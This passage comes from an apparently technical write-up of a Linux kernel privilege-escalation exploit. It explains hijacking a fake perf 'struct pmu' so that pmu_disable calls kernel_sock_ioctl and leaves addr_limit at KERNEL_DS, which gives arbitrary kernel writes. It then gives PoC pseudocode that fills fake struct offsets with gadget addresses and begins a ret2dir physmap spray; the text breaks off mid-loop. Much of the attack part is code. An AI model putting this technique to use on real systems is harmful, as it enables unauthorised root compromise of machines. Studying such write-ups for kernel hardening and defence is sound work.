 ```
	void (*pmu_enable)		(struct pmu *pmu); /* optional */
	void (*pmu_disable)		(struct pmu *pmu); /* optional */
    ...
```
According to `Code snippet 3` , we could fill the address of `kernel_sock_ioctl` instead of the original address of `pmu_disable`. Because `kernel_sock_ioctl` can help us to enable write kernel space arbitrarily. 
`kernel_setsockopt()` is the another function such as this one.
Suppose that we can execute the `kernel_sock_ioctl()` and control its 1st argument（`struct socket *sock`）, then can jump over the `set_fs(oldfs)` to `kernel_sock_ioctl` epilogue by manipulating `struct socket *sock`.
By the way, we also fill some hard-core addresses to avoid crash and guarante writing kernel space successfully.

You can get more details in later POC code section.

```c=
int kernel_sock_ioctl(struct socket *sock, int cmd, unsigned long arg)
{
	mm_segment_t oldfs = get_fs();
	int err;

	set_fs(KERNEL_DS);
	err = sock->ops->ioctl(sock, cmd, arg);
	set_fs(oldfs);

	return err;
}
```

If you could write kernel space arbitrarily and get some infoleak, it almost equals to get root privilege.
There are a lot of poc or exploit on the internet, so we don't talk it more here.
## PoC pseudocode
Below poc only set up the addr_limit for writing kernel.
```c=
static void init_pmu(unsigned long pmu)
{
    // Refer to `struct pmu` in include/linux/perf_event.h. 
    *(unsigned long*)(pmu + 64) = 
        loc_per_cpu_start;	  
        // pmu->pmu_cpu_context. Avoid crash.
    *(unsigned long*)(pmu + 96) = 
        loc_kernel_sock_ioctl;      
        // pmu->pmu_disable, function pointer, pointing to kernel_sock_ioctl
    *(unsigned long*)(pmu + 56) = 
        loc_per_cpu_start;      
        // pmu->pmu_disable_conut, , pointing to _per_cpu_start
    *(unsigned long*)(pmu + 88) = 
        loc_direct_ret; 
        // pmu->pmu_enable, (function pointer)
                                
    *(unsigned long*)(pmu + 40) = pmu + 0x100;
        // == *sock->ops, for hijacking sock->ops->ioctl
    *(unsigned long*)(pmu + 328) = 
        loc_kernel_sock_ioctl_ret;
        // == *sock->ops->ioctl, for hijacking sock->ops->ioctl, = kernel_sock_ioctl_ret
}
void phymaps_spray()
{
    /*  Here we phymaps_spray the fake `struct perf_event_context` 
     *  pointing fake pmu we puted in user space.
     */
  while ( start_addr < ret2dir_limit )
```